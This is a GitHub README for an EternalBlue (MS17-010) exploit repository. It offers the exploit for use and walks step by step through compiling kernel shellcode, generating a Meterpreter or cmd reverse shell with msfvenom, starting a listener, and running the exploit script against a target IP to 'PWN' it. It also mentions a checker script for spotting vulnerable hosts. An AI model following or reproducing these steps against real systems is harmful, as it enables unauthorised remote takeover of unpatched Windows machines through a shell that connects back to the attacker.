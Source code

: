 # MS17-010 (ETERNAL BLUE) Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that comes with this in most repos.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010
run `python eternalblue_checker.py <TARGET-IP>`

## USAGE:
Navigate to the `shellcode` directory in the repo:
run `./shell_prep.sh`
Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
IP for reverse connection:
<YOUR-IP>
PORT you want x64 to listen on:
<SOME PORT>
PORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:
run `listener_prep.sh`
Follow the propmts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

IP for reverse connection:
<YOUR-IP>
PORT for x64 reverse connection:
<SOME PORT>
PORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run `python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin>`

This has only been tested on Windows 7/Server 2008, however the exploit included in this repo also includes the Windows 8 version and *should* work.


The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010